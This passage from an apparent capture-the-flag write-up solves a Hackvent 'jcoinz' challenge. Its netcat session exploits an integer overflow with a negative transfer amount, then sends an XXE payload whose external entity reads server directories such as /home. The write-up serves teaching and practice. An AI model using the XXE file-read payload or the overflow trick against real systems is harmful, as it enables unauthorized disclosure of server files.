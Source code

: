     run
    sbin
    snap
    srv
    sys
    tmp
    usr
    var
    vmlinuz
    vmlinuz.old
    </foo>

So we check in the `home` folder, and by repeatedly sending xml messages
we eventually find a file in
`/home/jcoinz` that contains the flag:

    $ nc challenges.hackvent.hacking-lab.com 3117
    $$$$$$$$$$$$$$$$$$
    $ JCOINZ SERVICE $
    $$$$$$$$$$$$$$$$$$

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 1336

    [?] Action: 1
    [?] Amount of jcoinz to send: 1333
    [-] Decreased the account of "billy" by 1333
    [+] Thank you very much!

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 1

    [?] Action: 1
    [?] Amount of jcoinz to send: -2147483648
    [-] Decreased the account of "billy" by -2147483648
    [+] Thank you very much!

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147483647

    [?] Action: 2
    [-] Decreased the account of "billy" by 1337
    [?] XML Message: <?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [<!ELEMENT foo ANY >  <!ENTITY xxe SYSTEM "file:///home" >]><foo>&xxe;</foo>
    [+] Your secret xml message: <foo>jcoinz
    </foo>

    1 - sends jcoinz to charity
    2 - send a secret xml message to the admin
    Your name: billy
    Your amount of jcoinz: 2147480969

